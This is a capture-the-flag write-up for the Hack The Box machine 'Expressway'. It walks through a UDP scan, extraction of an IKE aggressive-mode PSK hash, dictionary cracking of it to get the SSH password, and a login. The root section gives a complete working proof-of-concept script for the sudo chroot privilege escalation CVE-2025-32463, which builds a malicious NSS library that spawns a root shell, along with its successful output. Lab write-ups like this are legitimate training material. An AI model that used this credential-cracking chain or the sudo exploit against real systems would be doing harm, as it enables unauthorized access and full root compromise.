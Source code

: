 ### How to get the User flag?
This machine doesn’t have a guided mode. There are only two fields: one for the user flag and one for the root flag. Other than the IP address, no information is given, so the idea is probably to start with a port scan. When I scanned the TCP ports using rustscan or nmap, only port 22 (SSH) was open. Since rustscan doesn’t support UDP scans, I used nmap instead, and it showed more open ports on UDP.

#### Step1. UDP ports scanning
```
┌──(kali㉿kali)-[~/Templates]
└─$ nmap -sU --top-ports 100 10.10.11.87
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 02:35 EDT
Nmap scan report for 10.10.11.87
Host is up (0.83s latency).
Not shown: 92 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open|filtered domain
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
4500/udp  open|filtered nat-t-ike
32769/udp open|filtered filenet-rpc
49153/udp open|filtered unknown
49194/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 193.41 seconds
```

#### Step2. ike-scan and get psk
```
┌──(kali㉿kali)-[~/Templates]
└─$ ike-scan -A -P psk.params 10.10.11.87
WARNING: gethostbyname failed for "psk.params" - target ignored: Resource temporarily unavailable
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=0e1c97b8743a080d) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
89f99e1a29cb59037b14f3325d46bbfd25b2260551c8a167a85ec24cde9caa30ab9c50d7cc452f0cafbfa5b6b2c9d18951b85bf84eeafcb2ebd0622cda81fa86b62a35b935dba47788684bc8d1cf2e1e265b412842757323af7e2e507bec093176409d38a6568eb8ff74d942c981a735dba5813c042f8aa186dd864cacf941cb:03d99ac0667b18937a39b7912a7aef4fe60a9301a88bd1e6eb8bff84323aa8623c4d5bbaea1f0cd11ff575dd2e1c6cd626061e62ccd9a796c5afedc416fb87d2d78ee95036e2e0b95e84afa53b39379772dd6ce3c0ab799234d25b44a3704ea46298f8fb439cab3395dff719f7c2b54883c99c5f9dfdcd04781a8769ebc1f070:0e1c97b8743a080d:2964183e2e566e68:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:85aa8a5d1c69c9cba730568a811c0f3c5b06ea2b:cf56c1597313e226750d658f65f11d522b610c6176607df78b1648a4fae0808b:9bd318f6efe2e690e83c377091b1621cf482ed3a
Ending ike-scan 1.9.6: 1 hosts scanned in 10.315 seconds (0.10 hosts/sec).  1 returned handshake; 0 returned notify
```

#### Step3. Get the password
```
┌──(kali㉿kali)-[~/Templates]
└─$ psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
Starting psk-crack [ike-scan 1.9.6] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash dc96a3f62923879c4a2cd3ff60f0d3d9fbc8d298
Ending psk-crack: 8045040 iterations in 4.417 seconds (1821367.42 iterations/sec)
```

#### Step4. User login via SSH
```
┌──(kali㉿kali)-[~/Templates]
└─$ ssh ike@10.10.11.87
ike@10.10.11.87's password: 
Last login: Tue Oct 21 07:24:01 BST 2025 from 10.10.11.87 on ssh
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 21 07:27:05 2025 from 10.10.16.2
ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
ike@expressway:~$ cat user.txt
user-flag
```

### How to get the Root flag?
I still don't have a clear idea of how to gain root privilege. Anyway, the installed sudo version (1.9.17) is affected by a local privilege escalation (LPE) vulnerability. You can to use PoC to gain root privilege.
```
#!/bin/bash
# sudo-chwoot.sh – PoC CVE-2025-32463
set -e

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd "$STAGE"

# 1. NSS library
cat > woot1337.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0,0);          /* change to UID 0 */
    setregid(0,0);          /* change  to GID 0 */
    chdir("/");             /* exit from chroot */
    execl("/bin/bash","/bin/bash",NULL); /* root shell */
}
EOF

# 2. Mini chroot with toxic nsswitch.conf
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc            # make getgrnam() not fail

# 3. compile libnss_
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "[*] Running exploit…"
sudo -R woot woot                 # (-R <dir> <cmd>)
                                   # • the first “woot” is chroot
                                   # • the second “woot” is and inexistent
command
                                   #   (only needs resolve the user)

rm -rf "$STAGE"
```
#### Stage1. root privilege escalation
```
ike@expressway:~$ ./sudo-chwoot.sh 
[*] Running exploit…
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
root@expressway:/# cd /root
root@expressway:/root# cat root.txt 
root-flag
```

### Ref
- Target : https://app.hackthebox.com/machines/Expressway
- sudo exploit(CVE-2025-32463) : https://www.exploit-db.com/exploits/52352
